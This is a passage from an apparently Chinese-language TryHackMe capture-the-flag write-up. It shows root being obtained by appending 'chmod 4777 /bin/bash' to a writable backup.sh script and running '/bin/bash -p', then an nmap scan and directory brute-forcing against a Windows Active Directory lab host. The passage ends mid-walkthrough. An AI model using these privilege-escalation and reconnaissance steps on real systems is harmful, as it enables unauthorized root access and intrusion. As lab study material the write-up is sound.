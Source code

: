 /bin/sh: 0: can't access tty; job control turned off
$ id
uid=1002(serv3) gid=1002(serv3) groups=1002(serv3)
```

我们写入下面命令到backup.sh，使得bash命令成为一个SUID
```echo "chmod 4777 /bin/bash" >> /home/serv3/backups/backup.sh```

等待一分钟以后，执行```/bin/bash -p```拿到root权限
```
serv3@web-serv:/$ /bin/bash -p                                                                                                                                                                                                               
/bin/bash -p                                                                                                                                                                                                                                 
bash-4.4# id                                                                                                                                                                                                                                 
id                                                                                                                                                                                                                                           
uid=1002(serv3) gid=1002(serv3) euid=0(root) groups=1002(serv3)                                                                                                                                                                              
bash-4.4# cat /root/root.txt    
```

#  Medium Challenge

## 服务发现

```
┌──(root💀kali)-[~/tryhackme/hackhill]
└─# nmap -sV -Pn 10.10.48.179                                                                                                                                                                                                         130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 10:00 EDT
Nmap scan report for 10.10.48.179
Host is up (0.32s latency).
Not shown: 985 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
81/tcp   open  http          Microsoft IIS httpd 10.0
82/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-10-25 14:01:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: troy.thm0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: troy.thm0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
9999/tcp open  abyss?
```

中等难度是一台windows机器，开了很多服务，一个个查看

80,81,82都是http服务，逐个爆破目录

## 80
```
┌──(root💀kali)-[~/tryhackme/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://10.10.48.179
